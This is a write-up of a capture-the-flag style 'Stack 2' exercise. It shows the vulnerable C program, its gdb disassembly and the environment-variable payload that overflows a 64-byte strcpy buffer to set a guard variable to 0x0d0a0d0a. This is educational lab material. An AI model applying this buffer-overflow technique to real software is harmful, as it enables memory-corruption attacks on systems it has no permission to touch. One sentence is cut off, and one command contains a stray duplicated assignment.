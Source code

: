 # Stack 2

## Problem analysis

We first try to run the stack2 file by invoking it.

```shell
./stack2
>>>stack2: please set the GREENIE environment variable
```

which returns to us the output above. This suggests to us that there might be a
need to set some form of environment variable.

We try to take a look at the gdb dump as well. We can see that there is a variable in `esp+0x58` set to $0$ that we have to modify for comparison later in the code. We can also guess that the stack is likely to be of higher address space since the stack 

```gdb
Dump of assembler code for function main:
0x08048494 <main+0>:    push   ebp
0x08048495 <main+1>:    mov    ebp,esp
0x08048497 <main+3>:    and    esp,0xfffffff0
0x0804849a <main+6>:    sub    esp,0x60
0x0804849d <main+9>:    mov    DWORD PTR [esp],0x80485e0
0x080484a4 <main+16>:   call   0x804837c <getenv@plt>
0x080484a9 <main+21>:   mov    DWORD PTR [esp+0x5c],eax
0x080484ad <main+25>:   cmp    DWORD PTR [esp+0x5c],0x0
0x080484b2 <main+30>:   jne    0x80484c8 <main+52>
0x080484b4 <main+32>:   mov    DWORD PTR [esp+0x4],0x80485e8
0x080484bc <main+40>:   mov    DWORD PTR [esp],0x1
0x080484c3 <main+47>:   call   0x80483bc <errx@plt>
0x080484c8 <main+52>:   mov    DWORD PTR [esp+0x58],0x0
0x080484d0 <main+60>:   mov    eax,DWORD PTR [esp+0x5c]
0x080484d4 <main+64>:   mov    DWORD PTR [esp+0x4],eax
0x080484d8 <main+68>:   lea    eax,[esp+0x18]
0x080484dc <main+72>:   mov    DWORD PTR [esp],~~eax~~
0x080484df <main+75>:   call   0x804839c <strcpy@plt>
0x080484e4 <main+80>:   mov    eax,DWORD PTR [esp+0x58]
0x080484e8 <main+84>:   cmp    eax,0xd0a0d0a
0x080484ed <main+89>:   jne    0x80484fd <main+105>
0x080484ef <main+91>:   mov    DWORD PTR [esp],0x8048618
0x080484f6 <main+98>:   call   0x80483cc <puts@plt>
0x080484fb <main+103>:  jmp    0x8048512 <main+126>
0x080484fd <main+105>:  mov    edx,DWORD PTR [esp+0x58]
0x08048501 <main+109>:  mov    eax,0x8048641
0x08048506 <main+114>:  mov    DWORD PTR [esp+0x4],edx
0x0804850a <main+118>:  mov    DWORD PTR [esp],eax
0x0804850d <main+121>:  call   0x80483ac <printf@plt>
0x08048512 <main+126>:  leave
0x08048513 <main+127>:  ret
End of assembler dump.
```

We can see that there is some function call `getenv` which gets the environment
variable on line `main+16`

We can also see that eventually there is some compare operation in `main+84`.
This hints to us that there might be some variable that we need to modify to
the value *0x0d0a0d0a*.

## Idea and Attack process

We try to guess that the environment variable might be linked to the cmp
operation. We first try to set the env in the shell and run the code.

```shell
export GREENIE=GREENIE=$(python -c 'print "\x0a\x0d\x0a\x0d"')
./stack2
>>>Try again, you got 0x00000000
```

We can see that the output of the code gave us some unset variable. This suggest
that the modification of the env variable is insufficient.

We continue to see that on `main+75` that we might need to exploit `strcpy`. From `main+60` to `main+72` we see that there is a copy of a variable pointer and buffer pointer below esp.
We can see that the address of the buffer starts `esp+18` and the address of the variable to be modified is `esp+58`, so we can do a buffer overflow to overwrite the value in the variable.

```shell
export GREENIE=$(python -c 'print "1234567890123456789012345678901234567890123456789012345678901234\x0a\x0d\x0a\x0d"')
./stack2
>>>you have correctly modified the variable
```

## Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

